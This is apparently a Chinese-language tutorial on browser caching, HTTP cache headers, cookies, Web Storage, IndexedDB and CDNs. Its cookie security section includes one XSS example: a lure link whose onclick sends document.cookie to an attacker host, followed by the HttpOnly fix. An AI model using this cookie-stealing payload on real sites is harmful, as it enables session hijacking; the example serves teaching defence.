



# Http-存储优化

## 浏览器缓存

浏览器缓存机制有四个方面，它们按照获取资源时请求的优先级依次排列如下：

1. Memory Cache

2. Service Worker Cache

3. HTTP Cache

4. Push Cache（HTTP2 的新特性）

### Memory Cache

从优先级上来说，它是浏览器最先尝试去命中的一种缓存。从效率上来说，它是响应速度最快的一种缓存。

内存缓存是快的，也是“短命”的。它和渲染进程“生死相依”，当进程结束后，也就是 tab 关闭以后，内存里的数据也将不复存在。

内存是有限的，很多时候需要先考虑即时呈现的内存余量，再根据具体的情况决定分配给内存和磁盘的资源量的比重——资源存放的位置具有一定的随机性。

规律：资源存不存内存，浏览器秉承的是“节约原则”。我们发现，Base64 格式的图片，几乎永远可以被塞进 memory cache，这可以视作浏览器为节省渲染开销的“自保行为”；此外，体积不大的 JS、CSS 文件，也有较大地被写入内存的几率——相比之下，较大的 JS、CSS 文件就没有这个待遇了，内存资源是有限的，它们往往被直接甩进磁盘。

### Service Worker Cache

Service Worker 是一种独立于主线程之外的 Javascript 线程。它脱离于浏览器窗体，因此无法直接访问 DOM。这样独立的个性使得 Service Worker 的“个人行为”无法干扰页面的性能，这个“幕后工作者”可以帮我们实现离线缓存、消息推送和网络代理等功能。我们借助 Service worker 实现的离线缓存就称为 Service Worker Cache。

[Service Worker 全面进阶](https://www.villainhr.com/page/2017/01/08/Service%20Worker%20%E5%85%A8%E9%9D%A2%E8%BF%9B%E9%98%B6)

### Http Cache

分为强缓存和协商缓存。优先级较高的是强缓存，在命中强缓存失败的情况下，才会走协商缓存。

#### 强缓存

利用 http 头中的 Expires 和 Cache-Control 两个字段来控制

强缓存中，当请求再次发出时，浏览器会根据其中的 expires 和 cache-control 判断目标资源是否“命中”强缓存，若命中则直接从缓存中获取资源，**不会再与服务端发生通信**


##### expires（http1.0）

当服务器返回响应时，在 Response Headers 中将过期时间（时间戳）写入 expires 字段

```http
expires: Wed, 11 Sep 2019 16:12:18 GMT
```

它最大的问题在于对“本地时间”的依赖。如果服务端和客户端的时间设置可能不同，或者我直接手动去把客户端的时间改掉，那么 expires 将无法达到我们的预期。

##### cache-control（http1.1）

```http
cache-control: max-age=3600, s-maxage=31536000
```

s-maxage 优先级高于 max-age，在依赖各种代理的大型架构中，我们不得不考虑代理服务器的缓存问题。s-maxage 就是用于表示 cache 服务器上（比如 cache CDN）的缓存的有效时间的，并只对 public 缓存有效

**public 与 private**

如果我们为资源设置了 public，那么它既可以被浏览器缓存，也可以被代理服务器缓存；如果我们设置了 private，则该资源只能被浏览器缓存。private 为默认值。但多数情况下，public 并不需要我们手动设置，比如有很多线上网站的 cache-control 是这样的：



设置了 s-maxage，没设置 public，那么 CDN 还可以缓存这个资源吗？答案是肯定的。因为明确的缓存信息（例如“max-age”）已表示响应是可以缓存的。

**no-store与no-cache**

no-cache 绕开了浏览器：我们为资源设置了 no-cache 后，每一次发起请求都不会再去询问浏览器的缓存情况，而是直接向服务端去确认该资源是否过期（即走我们下文即将讲解的协商缓存的路线）。

no-store 比较绝情，顾名思义就是不使用任何缓存策略。在 no-cache 的基础上，它连服务端的缓存确认也绕开了，只允许你直接向服务端发送请求、并下载完整的响应。

#### 协商缓存：浏览器与服务器合作之下的缓存策略

协商缓存机制下，浏览器需要向服务器去询问缓存的相关信息，进而判断是重新发起请求、下载完整的响应，还是从本地获取缓存的资源。

如果服务端提示缓存资源未改动（Not Modified），资源会被重定向到浏览器缓存，这种情况下网络请求对应的状态码是 304（如下图）。


##### Last-Modified

Last-Modified 是一个时间戳，如果我们启用了协商缓存，它会在首次请求时随着 Response Headers 返回：

```http
Last-Modified: Fri, 27 Oct 2017 06:35:57 GMT
```

随后我们每次请求时，会带上一个叫 If-Modified-Since 的时间戳字段，它的值正是上一次 response 返回给它的 last-modified 值：

```http
If-Modified-Since: Fri, 27 Oct 2017 06:35:57 GMT
```

服务器接收到这个时间戳后，会比对该时间戳和资源在服务器上的最后修改时间是否一致，从而判断资源是否发生了变化。如果发生了变化，就会返回一个完整的响应内容，并在 Response Headers 中添加新的 Last-Modified 值；否则，返回如上图的 304 响应，Response Headers 不会再添加 Last-Modified 字段。

弊端：

* 我们编辑了文件，但文件的内容没有改变。服务端并不清楚我们是否真正改变了文件，它仍然通过最后编辑时间进行判断。

* 当我们修改文件的速度过快时（比如花了 100ms 完成了改动），由于 If-Modified-Since 只能检查到以秒为最小计量单位的时间差，所以它是感知不到这个改动的——该重新请求的时候，反而没有重新请求了。

这两个场景其实指向了同一个 bug——服务器并没有正确感知文件的变化。为了解决这样的问题，Etag 作为 Last-Modified 的补充出现了。

##### Etag

Etag 是由服务器为每个资源生成的唯一的标识字符串，这个标识字符串是基于文件内容编码的，只要文件内容不同，它们对应的 Etag 就是不同的

Etag 和 Last-Modified 类似，当首次请求时，我们会在响应头里获取到一个最初的标识符字符串，举个例子，它可以是这样的：

```http
ETag: W/"2a3b-1602480f459"
```

那么下一次请求时，请求头里就会带上一个值相同的、名为 if-None-Match 的字符串供服务端比对了：

```http
If-None-Match: W/"2a3b-1602480f459"
```

Etag 的生成过程需要服务器额外付出开销，会影响服务端的性能，这是它的弊端。因此启用 Etag 需要我们审时度势。正如我们刚刚所提到的——Etag 并不能替代 Last-Modified，它只能作为 Last-Modified 的补充和强化存在。



#### 指南


当我们的资源内容不可复用时，直接为 Cache-Control 设置 no-store，拒绝一切形式的缓存；否则考虑是否每次都需要向服务器进行缓存有效确认，如果需要，那么设 Cache-Control 的值为 no-cache；否则考虑该资源是否可以被代理服务器缓存，根据其结果决定是设置为 private 还是 public；然后考虑该资源的过期时间，设置对应的 max-age 和 s-maxage 值；最后，配置协商缓存需要用到的 Etag、Last-Modified 等参数。

### Push Cache

[http2 push tougher than I thought](https://jakearchibald.com/2017/h2-push-tougher-than-i-thought/)

* Push Cache 是缓存的最后一道防线。浏览器只有在 Memory Cache、HTTP Cache 和 Service Worker Cache 均未命中的情况下才会去询问 Push Cache。

* Push Cache 是一种存在于会话阶段的缓存，当 session 终止时，缓存也随之释放。

* 不同的页面只要共享了同一个 HTTP2 连接，那么它们就可以共享同一个 Push Cache。

## 本地存储

### Cookie

Cookie 的本职工作并非本地存储，而是“维持状态”。

在 Web 开发的早期，人们亟需解决的一个问题就是状态管理的问题：HTTP 协议是一个无状态协议，服务器接收客户端的请求，返回一个响应，故事到此就结束了，服务器并没有记录下关于客户端的任何信息。那么下次请求的时候，如何让服务器知道“我是我”呢？

在这样的背景下，Cookie 应运而生。

Cookie 说白了就是一个存储在浏览器里的一个小小的文本文件，它附着在 HTTP 请求上，在浏览器和服务器之间“飞来飞去”。它可以携带用户信息，当服务器检查 Cookie 的时候，便可以获取到客户端的状态。



#### 安全

如果一个网站使用cookies作为会话标识符，攻击者可以通过窃取一套用户的cookies来冒充用户的请求。从服务器的角度，它是没法分辨用户和攻击者的，因为用户和攻击者拥有相同的身份验证

* 网络窃听：

网络上的流量可以被网络上任何计算机拦截，特别是未加密的开放式WIFI。这种流量包含在普通的未加密的HTTP清求上发送Cookie。在未加密的情况下，攻击者可以读取网络上的其他用户的信息，包含HTTP Cookie的全部内容，以便进行中间的攻击。比如：拦截cookie来冒充用户身份执行恶意任务（银行转账等）。

解决办法：服务器可以设置secure属性的cookie，这样就只能通过https的方式来发送cookies了。

* DNS 缓存中毒

* 跨站点脚本XSS

使用跨站点脚本技术可以窃取cookie。当网站允许使用javascript操作cookie的时候，就会发生攻击者发布恶意代码攻击用户的会话，同时可以拿到用户的cookie信息。

例子：

```html
<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
```

当用户点击这个链接的时候，浏览器就会执行onclick里面的代码，结果这个网站用户的cookie信息就会被发送到abc.com攻击者的服务器。攻击者同样可以拿cookie搞事情。

解决办法：可以通过cookie的HttpOnly属性，设置了HttpOnly属性，javascript代码将不能操作cookie。

* 跨站请求伪造CSRF

例如，SanShao可能正在浏览其他用户XiaoMing发布消息的聊天论坛。假设XiaoMing制作了一个引用ShanShao银行网站的HTML图像元素，例如，

```html

```

如果SanShao的银行将其认证信息保存在cookie中，并且cookie尚未过期，(当然是没有其他验证身份的东西)，那么SanShao的浏览器尝试加载该图片将使用他的cookie提交提款表单，从而在未经SanShao批准的情况下授权交易。

解决办法：增加其他信息的校验（手机验证码，或者其他盾牌）。

### Web Storage

#### Local Storage 与 Session Storage 的区别

两者的区别在于生命周期与作用域的不同。

生命周期：Local Storage 是持久化的本地存储，存储在其中的数据是永远不会过期的，使其消失的唯一办法是手动删除；而 Session Storage 是临时性的本地存储，它是会话级别的存储，当会话结束（页面被关闭）时，存储内容也随之被释放。

作用域：Local Storage、Session Storage 和 Cookie 都遵循同源策略。但 Session Storage 特别的一点在于，即便是相同域名下的两个页面，只要它们不在同一个浏览器窗口中打开，那么它们的 Session Storage 内容便无法共享。

#### Web Storage 的特性：

存储容量大： Web Storage 根据浏览器的不同，存储容量可以达到 5-10M 之间。

仅位于浏览器端，不与服务端发生通信。

#### 应用场景

Local Storage：图片内容丰富的电商网站会用它来存储 Base64 格式的图片字符串，有的网站还会用它存储一些不经常更新的 CSS、JS 等静态资源。

Session Storage：微博的 Session Storage 就主要是存储你本次会话的浏览足迹

### IndexedDB

IndexedDB 是一个运行在浏览器上的非关系型数据库。既然是数据库了，那就不是 5M、10M 这样小打小闹级别了。理论上来说，IndexedDB 是没有存储上限的（一般来说不会小于 250M）。它不仅可以存储字符串，还可以存储二进制数据。

IndexedDB 可以看做是 LocalStorage 的一个升级，当数据的复杂度和规模上升到了 LocalStorage 无法解决的程度，我们毫无疑问可以请出 IndexedDB 来帮忙。

在一些需要写博客的网站，比如CSDN、慕课网 都看到了有使用 IndexedDB，用 IndexedDB 来存储文章草稿似乎很合适。

## CDN

CDN 的核心点有两个，一个是缓存，一个是回源。

这两个概念都非常好理解。对标到上面描述的过程，“缓存”就是说我们把资源 copy 一份到 CDN 服务器上这个过程，“回源”就是说 CDN 发现自己没有这个资源（一般是缓存的数据过期了），转头向根服务器（或者它的上层服务器）去要这个资源的过程。

CDN 往往被用来存放静态资源。上文中我们举例所提到的“根服务器”本质上是业务服务器，它的核心任务在于生成动态页面或返回非纯静态页面，这两种过程都是需要计算的。业务服务器仿佛一个车间，车间里运转的机器轰鸣着为我们产出所需的资源；相比之下，CDN 服务器则像一个仓库，它只充当资源的“栖息地”和“搬运工”。

所谓“静态资源”，就是像 JS、CSS、图片等不需要业务服务器进行计算即得的资源。而“动态资源”，顾名思义是需要后端实时动态生成的资源，较为常见的就是 JSP、ASP 或者依赖服务端渲染得到的 HTML 页面。

什么是“非纯静态资源”呢？它是指需要服务器在页面之外作额外计算的 HTML 页面。具体来说，当我打开某一网站之前，该网站需要通过权限认证等一系列手段确认我的身份、进而决定是否要把 HTML 页面呈现给我。这种情况下 HTML 确实是静态的，但它和业务服务器的操作耦合，我们把它丢到CDN 上显然是不合适的。

业务服务器的域名是这个：

`www.taobao.com`

而 CDN 服务器的域名是这个：

`g.alicdn.com`

再看另一方面，我们讲到 Cookie 的时候，为了凸显 Local Storage 的优越性，曾经提到过：

> Cookie 是紧跟域名的。同一个域名下的所有请求，都会携带 Cookie。大家试想，如果我们此刻仅仅是请求一张图片或者一个 CSS 文件，我们也要携带一个 Cookie 跑来跑去（关键是 Cookie 里存储的信息我现在并不需要），这是一件多么劳民伤财的事情。Cookie 虽然小，请求却可以有很多，随着请求的叠加，这样的不必要的 Cookie 带来的开销将是无法想象的……

同一个域名下的请求会不分青红皂白地携带 Cookie，而静态资源往往并不需要 Cookie 携带什么认证信息。把静态资源和主页面置于不同的域名下，完美地避免了不必要的 Cookie 的出现！